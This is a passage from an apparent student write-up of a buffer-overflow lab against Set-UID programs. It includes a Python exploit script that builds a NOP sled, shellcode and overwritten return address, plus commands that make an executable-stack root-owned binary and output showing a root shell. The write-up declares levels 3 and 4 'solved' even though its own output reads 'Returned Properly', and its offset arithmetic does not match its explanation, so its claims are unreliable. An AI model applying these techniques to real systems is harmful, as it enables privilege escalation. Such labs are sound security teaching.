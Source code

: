 As a result, level 3 is solved:

```console
~/Documents/BufferSetUID/code$ vim exploit.py
~/Documents/BufferSetUID/code$ ./exploit.py
~/Documents/BufferSetUID/code$ ./stack-L3
Input size: 517
==== Returned Properly ====
```

## Task 6: Launching Attack on $64$-bit Program (Level 4)

Using the similar technique as in [Level 2](#task-4-launching-attack-without-knowing-buffer-size-level-2), I deployed the following <code>exploit.py</code> file:

```python
content = bytearray(0x90 for i in range(517))

start = 517 - len(shellcode)
content[start:start + len(shellcode)] = shellcode

ret    = 0xffffe258 + 120 
L = 8
addr = (ret).to_bytes(L, byteorder='little')
content[0 : 15] = addr * 2

with open('badfile', 'wb') as f:
  f.write(content)
```

Note that <code>L</code> is switched to $8$ and the designated return address will be taking $16$ bytes (i.e., the size of two words), considering that the buffer size is $10$.

As a result, level 4 is solved:

```console
~/Documents/BufferSetUID/code$ vim exploit.py
~/Documents/BufferSetUID/code$ ./exploit.py
~/Documents/BufferSetUID/code$ ./stack-L4
Input size: 517
==== Returned Properly ====
```

## Task 7: Defeating <code>dash</code>'s Countermeasure

To begin with, let <code>/bin/sh</code> point back to <code>/bin/dash</code>:

```console
$ sudo ln -sf /bin/dash /bin/sh
```

Compile and run <code>call_shellcode.c</code> with the <code>setuid()</code> system call:

```console
~Documents/BufferSetUID/shellcode$ make setuid
gcc -m32 -z execstack -o a32.out call_shellcode.c
gcc -z execstack -o a64.out call_shellcode.c
sudo chown root a32.out a64.out
sudo chmod 4755 a32.out a64.out
~Documents/BufferSetUID/shellcode$ ./a32.out
# id
uid=0(root) gid=1001(seed) groups=1001(seed),120(docker)
# echo On the Bonnie Bonnie Banks of Loch Lomond
On the Bonnie Bonnie Banks of Loch Lomond
# exit
~Documents/BufferSetUID/shellcode$ ./a64.out
# id
uid=0(root) gid=1001(seed) groups=1001(seed),120(docker)
# whoami
```

[^1]: See "Daniel P. Bovet and Marco Cesati, *Understanding the Linux Kernel, Third Edition*, O'Reilly, 2006."
[^2]: A privileged program is one that can give users extra privileges beyond that are already assigned to them. A Set-Root-UID program is a privileged program because it allows users to gain the root privilege during the execution of the programs. For Set-UID programs in UNIX and UNIX-like operating systems, which stands for **set user ID on execution**, the effective <code>uid</code> is the owner of the program, while the real <code>uid</code> is the user of the program. Windows does not have the notion of Set-UID. A different mechanism is used for implementing privileged functionality. A developer would write a privileged program as a service and the user sends the command line arguments to the service using Local Procedure Call.
[^3]: Continue to the next source line in the current (innermost) stack frame. This is similar to <code>step</code>, but function calls that appear within the line of code are executed without stopping. Execution stops when control reaches a different line of code at the original stack level that was executing when you gave the <code>next</code> command.